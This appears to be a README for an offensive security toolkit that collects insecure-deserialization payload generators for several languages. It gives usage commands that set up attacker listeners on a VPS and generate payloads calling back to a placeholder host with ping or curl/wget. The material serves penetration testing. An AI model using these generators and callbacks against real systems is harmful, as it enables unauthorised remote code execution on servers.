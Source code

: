 # INSECURE DESERIALIZATION SCRIPTS
This collection contains various tools for generating serialized payloads in different programming languages.

## TOOLS
* [Java - ysoserial.jar](https://github.com/frohoff/ysoserial)
    * [jargadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/jargadgets.txt)
* [C# - ysoserial.exe](https://github.com/pwntester/ysoserial.net/)
    * :diamonds:[RunYsoserial.ps1](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/RunYsoserial.ps1) - Wrapper around ysoserial.net using all possible gadgets and formatters.
    * [netgadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/netgadgets.txt)
    * [netformatters.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/netformatters.txt)
* [Python - python_deser.py](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/python_deser.py)
    * (Modified [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator))
* [Ruby - ruby_deser_vx.rb](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/ruby_deser_v2.rb)
    * ([deser-ruby](https://github.com/klezVirus/deser-ruby) is an alternative tool for Ruby v3 which also supports YAML generation)
* [PHP - phpggc](https://github.com/ambionics/phpggc)
    * [php_deser.sh](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/php_deser.sh) - Wrapper around phpggc that generates payloads from all possible gadgets in base64 format. 
    * [phpgadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/phpgadgets.txt)
* [Node.js - deser-node.js](https://github.com/klezVirus/deser-node)
    * With deletec console.log() for clean output.
* :diamonds:[crimson_deser.sh](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/crimson_deser.sh) - Wrapper around all generators except .NET

## USAGE
#### ON VPS
```bash
# TERMINAL 1
echo 123 > fake.dll
sudo impacket-smbserver deser . -smb2support
# TERMINAL 2
updog -p 443 --ssl 2>&1 | tee -a https.logs
# TERMINAL 3
python3 -m http.server 80 2>&1 | tee -a http.logs
# TERMINAL 4
sudo tcpdump -i any icmp -ttttt -w - -U | tee icmp.logs | tcpdump -r -
```
#### ON WINDOWS
```powershell
# In ysoserial directory
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'base64' -outputFile 'deser.txt'
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'hex' -outputFile 'deser.txt'
```

#### ON UNIX
```
# You can try with curl | wget and any other command for the external interaction with IP / DOMAIN:
./crimson_deser.sh "ping VPS_IP" "VPS_IP" "DOMAIN_COLLAB"
```

